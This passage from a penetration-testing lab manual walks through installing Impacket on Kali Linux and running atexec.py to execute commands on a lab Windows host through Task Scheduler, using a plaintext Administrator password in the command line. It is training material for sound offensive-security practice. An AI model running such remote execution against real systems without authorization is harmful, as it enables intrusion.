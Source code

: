 python setup.py install

Press Enter.

Figure 1.85 Screenshot of PLABKALI01
Figure 1.85 Screenshot of PLABKALI01: Entering the command to run the setup.py and install impacket.

Step 5

The Impacket installation does not take much time. After the installation, you are now at the prompt.

Figure 1.86 Screenshot of PLABKALI01
Figure 1.86 Screenshot of PLABKALI01: Showing the Kali prompt after completing the Impacket installation.

Step 6

Clear the screen with the clear command.

Next, navigate inside the examples directory.

cd examples

Press Enter
Figure 1.87 Screenshot of PLABKALI01
Figure 1.87 Screenshot of PLABKALI01: Entering the cd command to navigate to the examples directory.

Step 7

Now, list the files in this directory. Type the following command:

ls -l

Press Enter
Figure 1.88 Screenshot of PLABKALI01
Figure 1.88 Screenshot of PLABKALI01: Entering the ls -l command to list the files and directories in the examples directory.

Step 8

The files in the examples directory are listed.

Figure 1.89 Screenshot of PLABKALI01
Figure 1.89 Screenshot of PLABKALI01: Showing the listing of files in the examples directory.

Step 9

Clear the screen with the clear command.

You will now perform Remote Code Execution using the atexec script, which will use the Windows Task Scheduler service. Type the following command:

./atexec.py practicelabs/Administrator:Passw0rd@192.168.0.5 systeminfo

Press Enter.

Figure 1.90 Screenshot of PLABKALI01
Figure 1.90 Screenshot of PLABKALI01: Entering the command to execute the atexec.py script.
